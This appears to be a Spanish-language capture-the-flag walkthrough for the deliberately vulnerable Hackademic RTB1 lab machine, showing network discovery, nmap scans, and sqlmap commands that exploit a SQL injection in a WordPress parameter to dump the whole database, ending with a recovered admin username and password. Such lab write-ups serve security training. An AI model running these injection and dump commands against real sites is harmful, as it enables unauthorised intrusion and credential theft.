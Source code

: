 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

Usuario de WordPress: `GeorgeMiller`

Contraseña: `q1w2e3`
